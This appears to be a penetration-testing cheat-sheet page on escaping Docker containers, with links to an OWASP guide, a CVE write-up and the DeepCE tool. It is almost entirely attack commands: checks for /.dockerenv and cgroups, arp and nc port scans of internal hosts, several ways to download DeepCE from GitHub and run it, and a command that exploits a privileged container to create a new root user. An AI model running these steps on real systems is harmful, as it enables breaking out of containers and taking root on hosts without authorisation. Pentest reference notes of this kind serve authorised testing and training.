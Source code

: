 # 🐋 Docker Escape
{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html" %}

## Know you're in a docker

```bash
ps aux
cd / && ls -lah
# if .dockerenv then ...

cat /proc/1/cgroup
```

## Escape
```bash
arp -a
# other hosts ???
# scan open ports
nc -zv 127.0.0.1 1-65535
nc -zv $host 1-65535

# check for db and other stuff....
```

### Resources
{% embed url="https://unit42.paloaltonetworks.com/docker-patched-the-most-severe-copy-vulnerability-to-date-with-cve-2019-14271/" %}

#### DeepCE
{% embed url="https://github.com/stealthcopter/deepce" %}

```bash
wget https://github.com/stealthcopter/deepce/raw/main/deepce.sh
curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o deepce.sh
# Or using python requests
python -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/main/deepce.sh").content)' > deepce.sh 
python3 -c 'import requests;print(requests.get("https://github.com/stealthcopter/deepce/raw/main/deepce.sh").content.decode("utf-8"))' > deepce.sh

# start
chmod +x ./deepce.sh
./deepce.sh

# create new root user on system
./deepce.sh --no-enumeration --exploit PRIVILEGED --username deepce --password deepce
```  


